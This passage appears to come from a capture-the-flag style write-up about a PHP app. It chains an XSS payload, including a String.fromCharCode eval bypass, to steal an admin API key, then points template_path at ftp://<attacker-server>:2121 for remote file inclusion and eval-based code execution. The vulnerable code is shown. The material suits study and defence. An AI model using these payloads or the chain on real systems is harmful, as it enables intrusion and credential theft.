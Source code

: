 By using a payload like the following:

```html
<form id="x "><svg><style><a id="</style><img src=x onerror=alert()>"></a></style></svg></form><input form="x" name="namespaceURI">
```

However it is not possible to add strings to our JS in the payload since it gets passed through PHP's JSON parser, so in order to bypass this limitation we need to use JS `String.fromCharCode` to convert each character of our js payload to an integer and re-encode it to a string on runtime.

```html
<form id=\\"x \\"><svg><style><a id=\\"</style><img src=x onerror=eval(String.fromCharCode(97)+String.fromCharCode(108)+String.fromCharCode(101)+String.fromCharCode(114)+String.fromCharCode(116)+String.fromCharCode(40)+String.fromCharCode(41))>\\"></a></style></svg></form><input form=\\"x\\" name=\\"namespaceURI\\">
```

Also we have to add `\\` to every quote to get escaped by JSON.

`Impact`: Admin-level XSS. The attacker’s script runs in the admin’s browser, capturing the admin’s credentials (API key) and making privileged requests.

#### Updating template\_path => FTP RFI

```php
// POST /api/admin/appSettings
$app->post('/api/admin/appSettings', function (Request $request, Response $response, $args) {
    $data = json_decode($request->getBody()->getContents(), true);
    ...
    $stmt = $pdo->prepare("INSERT INTO app_settings (key, value) VALUES (?, ?)
        ON CONFLICT(key) DO UPDATE SET value = excluded.value");
    foreach ($data as $key => $value) {
        $stmt->execute([$key, $value]);
    }
    if (isset($data['template_path'])) {
        $GLOBALS['settings']['templatesPath'] = $data['template_path'];  // (E)
    }
    ...
})->add($adminApiKeyMiddleware);
```

**Where It Goes Wrong**

* (E) The code updates a global `$GLOBALS['settings']['templatesPath']` directly from user input. If an admin’s API key is used, the attacker can set template\_path to something like:

```
ftp://<attacker-server>:2121
```

`Impact`: This is a classic Remote File Inclusion (RFI). The next time the app tries to render a template, it fetches the file from that remote location.

#### Rendering the Remote Template => RCE

```php
function render($filePath) {
    if (!file_exists($filePath)) {
        return "Error: File not found.";
    }
    $phpCode = file_get_contents($filePath);             // (F)
    ob_start();
    eval("?>" . $phpCode);                               // (G)
    return ob_get_clean();
}
...
$app->get('/dashboard', function (...) {
    $html = render($GLOBALS['settings']['templatesPath'] . '/dashboard.php');  // (H)
    ...
```